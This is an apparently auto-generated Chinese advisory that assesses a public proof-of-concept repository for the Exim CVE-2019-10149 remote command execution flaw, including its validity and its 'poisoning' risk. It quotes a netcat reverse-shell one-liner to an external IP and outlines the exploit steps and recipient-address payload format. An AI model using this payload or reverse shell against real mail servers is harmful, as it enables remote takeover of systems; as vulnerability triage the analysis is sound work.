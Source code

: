 ## CVE-2019-10149 - Exim deliver_message() 远程命令执行

**漏洞编号:** CVE-2019-10149

**漏洞类型:** 远程命令执行

**影响应用:** Exim

**危害等级:** 高危，可能导致系统完全控制

**影响版本:** 4.87 to 4.91

**利用条件:** 目标服务器运行Exim邮件服务器，且版本在漏洞影响范围内，允许外部连接到25端口(SMTP)

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2019-10149 漏洞存在于 Exim 邮件传输代理 (MTA) 的 `deliver_message()` 函数中，由于未正确验证收件人地址，攻击者可以通过构造特殊的电子邮件，在目标系统上执行任意命令。根据搜索结果，该漏洞已经被积极利用。提供的POC代码描述了如何利用该漏洞，包括安装易受攻击的Exim版本、配置、构造 payload 以及发送利用请求。

**有效性评估：**

根据漏洞库信息、搜索结果和提供的漏洞利用代码，该POC代码是有效的。搜索结果表明该漏洞已被广泛利用，POC代码也提供了详细的利用步骤。POC代码中的安装步骤确保了在特定环境下漏洞的可复现性。

**投毒风险评估：**

初步分析POC代码仓库，`/tmp/a0abe20df178383d8f8296dfca6f85dc/RemoteConnection.sh` 脚本存在一定的投毒风险。该脚本使用 `tail -n 0 -f /tmp/1 | /bin/sh 2>&1 | nc -nv 192.168.0.165 444 1> /tmp/1` 建立反向连接，这意味着攻击者（或脚本控制者）可以通过 `nc` 连接到受害者机器，并在受害者机器上执行命令。虽然脚本中明确提示需要修改IP和端口，但如果用户不修改就直接运行，将会连接到脚本作者控制的服务器。这种行为虽然不是传统意义上的恶意代码注入，但具有潜在的远程控制风险。

除此之外, `RemoteConnection.sh` 使用 `/tmp/1` 作为管道文件进行输入输出重定向,这可能导致数据泄露或覆盖。

因此，综合评估，投毒风险约为10%。大部分代码是用于漏洞利用，但反向连接部分存在被恶意利用的可能，用户需要仔细审查并修改脚本。

**利用方式分析：**

1.  **安装漏洞版本 Exim:**  首先，需要安装一个存在漏洞的 Exim 版本 (4.87 - 4.91)。
2.  **配置 Exim:**  为了方便利用，需要修改 Exim 的配置，允许 relaying，避免等待时间限制，并取消 recipient 验证。
3.  **构造 Payload:**  将要执行的 shell 命令转换为十六进制字符串，并将其嵌入到收件人地址中。Payload 的格式为 `<${run{<hex_encoded_command>}}@localhost>`。
4.  **发送恶意邮件：**
    *   使用 `nc` 连接到 Exim 服务器的 25 端口。
    *   发送 `HELO` 命令。
    *   设置发件人地址为 `<>`。
    *   设置收件人地址为构造好的 payload。
    *   发送 `DATA` 命令，并发送 31 行任意内容、一个空行和一个句点 (`.`) 来结束邮件内容。
5.  **执行命令：** Exim 在处理邮件时，会执行嵌入在收件人地址中的 shell 命令。

**项目地址:** [darsigovrustam/CVE-2019-10149](https://github.com/darsigovrustam/CVE-2019-10149)

**漏洞详情:** [CVE-2019-10149](https://nvd.nist.gov/vuln/detail/CVE-2019-10149)